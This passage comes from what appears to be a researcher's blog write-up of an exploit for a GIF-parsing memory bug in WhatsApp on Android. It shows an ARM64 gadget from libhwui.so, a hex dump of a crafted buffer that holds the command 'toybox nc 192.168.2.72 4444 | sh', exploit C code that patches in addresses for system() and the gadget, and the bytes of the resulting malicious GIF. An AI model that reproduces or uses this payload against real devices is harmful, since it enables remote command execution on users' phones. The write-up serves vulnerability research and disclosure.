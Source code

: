 ![Disassembly around info->rewindFunction](https://github.com/awakened1712/awakened1712.github.io/raw/master/assets/img/whatsapp1.PNG)

There is a gadget in libhwui.so that perfectly satisfies our purpose:
```
ldr x8, [x19, #0x18]
add x0, x19, #0x20
blr x8
```
Let say the address of the above gadget is AAAAAAAA and the address of system() function is BBBBBBBB. The rasterBits buffer (frame 1) before LZW encoding look as below:
```
00000000: 0000 0000 0000 0000 0000 0000 0000 0000  ................
00000010: 0000 0000 0000 0000 4242 4242 4242 4242  ........BBBBBBBB
00000020: 746f 7962 6f78 206e 6320 3139 322e 3136  toybox nc 192.16
00000030: 382e 322e 3732 2034 3434 3420 7c20 7368  8.2.72 4444 | sh
00000040: 0000 0000 0000 0000 0000 0000 0000 0000  ................
00000050: 0000 0000 0000 0000 0000 0000 0000 0000  ................
00000060: 0000 0000 0000 0000 0000 0000 0000 0000  ................
00000070: 0000 0000 0000 0000 0000 0000 0000 0000  ................
00000080: 4141 4141 4141 4141 eeff                 AAAAAAAA..
```
Now to find out AAAAAAAA and BBBBBBBB, we need an information disclosure vulnerability that gives us the base address of libc.so and libhwui.so. That vulnerability is not in the scope of this blogpost.

## Putting everything together

Just compile the code that I attached in the Appendix. Note that the address of `system()` and the gadget must be replaced by the actual address found by an information disclosure vulnerability (which is not covered in this blog post).
```
    /*
    Gadget g1:
        ldr x8, [x19, #0x18]
        add x0, x19, #0x20
        blr x8
    */
    size_t g1_loc = 0x7cb81f0954;  <<-- replace this
    memcpy(buffer + 128, &g1_loc, 8);

    size_t system_loc = 0x7cb602ce84; <<-- replace this
    memcpy(buffer + 24, &system_loc, 8);
```

Run the code to generate the corrupted GIF file:
```
notroot@osboxes:~/Desktop/gif$ gcc -o exploit egif_lib.c exploit.c
.....
.....
.....
notroot@osboxes:~/Desktop/gif$ ./exploit
buffer = 0x7ffc586cd8b0 size = 266
47 49 46 38 39 61 18 00 0A 00 F2 00 00 66 CC CC
FF FF FF 00 00 00 33 99 66 99 FF CC 00 00 00 00
00 00 00 00 00 2C 00 00 00 00 08 00 15 00 00 08
9C 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00 00 00 84 9C 09 B0
C5 07 00 00 00 74 DE E4 11 F3 06 0F 08 37 63 40
C4 C8 21 C3 45 0C 1B 38 5C C8 70 71 43 06 08 1A
34 68 D0 00 C1 07 C4 1C 34 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
00 54 12 7C C0 C5 07 00 00 00 EE FF FF 2C 00 00
```
